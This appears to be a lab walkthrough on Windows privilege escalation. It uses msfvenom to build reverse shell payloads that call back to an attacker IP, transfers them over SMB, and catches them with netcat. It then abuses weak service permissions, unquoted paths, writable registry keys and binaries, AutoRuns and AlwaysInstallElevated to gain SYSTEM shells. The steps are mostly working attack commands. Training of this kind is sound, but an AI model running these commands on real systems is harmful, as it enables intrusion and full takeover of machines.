 # ROOM-01 Windows Privilege Escalation 

## Windows PrivEsc
* Registry Escalation
    * Autorun
    * AlwaysInstallElevated
* Service Escalation
    * Registry
    * Executable Files
    * DLL Hijacking
    * binPath
    * Unquoted Service Paths
    * Hot Potato
* Privilege Escalation
    * Startup Applications
    * Kernel Exploits
* Password Mining Escalation
    * Configuration Files
    * Memory

## Reverse Shell Executable

On **Kali**, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. 
**Note:** There are many ways you could do this, however the simplest is to start an SMB server on **Kali** in the same directory as the file, and then use the standard Windows copy command to transfer the file.

On **Kali**, in the same directory as reverse.exe:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On **Windows** (update the IP address with your Kali IP):

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

On **Kali**, test the reverse shell by setting up a netcat listener:

```
sudo nc -nvlp 53
```
On **Windows**, run the reverse.exe executable and catch the shell:

```
C:\PrivEsc\reverse.exe
```

The reverse.exe executable will be used in many of the tasks in this room, so don't delete it!

## **Service Exploits**

### **SE01 - Insecure Service Permissions**
On victim machine:\
Use **accesschk.exe** to check the "user" account's permissions on the "daclsvc" service:
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
```
sc qc daclsvc
```

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

On Kali, start a listener.\
On victim, start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start daclsvc
```

### **SE02 - Unquoted Service Path**
Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
```
sc qc unquotedsvc
```
Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
Copy the reverse.exe executable you created to this directory and rename it Common.exe:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start unquotedsvc
```

### **SE03 - Weak Registry Permissions**
Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
```
sc qc regsvc
```
Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start regsvc
```

### **SE04 - Insecure Service Executables**
Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
```
sc qc filepermsvc
```
Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```
Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start filepermsvc
```

## **Registry Exploits**

### **AutoRuns**
Query the registry for AutoRun executables:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```
Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it.
```
rdesktop 10.10.96.61
```

### **AlwaysInstallElevated**
Query the registry for AlwaysInstallElevated keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Note that both keys are set to 1 (0x1).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```
Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
